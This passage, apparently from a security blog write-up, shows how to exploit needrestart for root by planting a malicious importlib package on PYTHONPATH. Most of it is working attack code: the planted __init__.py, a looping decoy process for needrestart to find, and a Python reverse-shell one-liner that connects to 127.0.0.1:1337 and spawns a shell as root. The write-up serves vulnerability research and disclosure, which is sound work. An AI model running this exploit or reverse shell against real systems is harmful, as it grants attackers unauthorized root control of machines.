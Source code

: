 > importlib.import_module() is provided to support applications that determine dynamically the modules to be loaded.

It seems that using the `import` statement in python can trigger the `importlib` module. I used the `find` command to verify that `importlib` is indeed a dynamically loaded library rather than a Python built-in like `sys`.

```bash
$ find / -name importlib 2>/dev/null
/usr/lib/python3.12/importlib
```

Maybe we can take advantage of `importlib` being dynamically loaded along with the fact that the contents of `__init__.py` are automatically executed when a module is loaded. I created a directory in `/tmp/needrestart` with the following structure:

```bash
./importlib
./importlib/__init__.py
./main.py
```

The contents of `main.py` are below.
```bash
$ main.py
import sys
```

In `./importlib/__init__.py`, I write Python code that will create a `hacked.txt` file:
```bash
$ cat ./importlib/__init__.py
import os
os.system("touch hacked.txt")
```

Let's put this idea to the test! I will `export PYTHONPATH=/tmp/needrestart` and manually replicate the `python` process that `needrestart` executes.

![The `hacked.txt` file being created after importing `sys` with the modified `PYTHONPATH` value pointing to `/tmp/needrestart`](/images/needrestart-testing-importlib.png)

It works! Let's see if we can port this attack directly to `needrestart`.

## Launching the exploit
I modified `main.py` to be an infinite loop so that it continues running while `needrestart` is searching the process list. The purpose of this file is to simply trigger the Python interpreter scan with our desired `PYTHONPATH` value.

```bash
$ cat main.py
while True:
	pass
```

Let's up the ante here and get a reverse shell as root.
```bash
$ cat importlib/__init__.py 
import os,pty,socket;s=socket.socket();s.connect(("127.0.0.1",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```
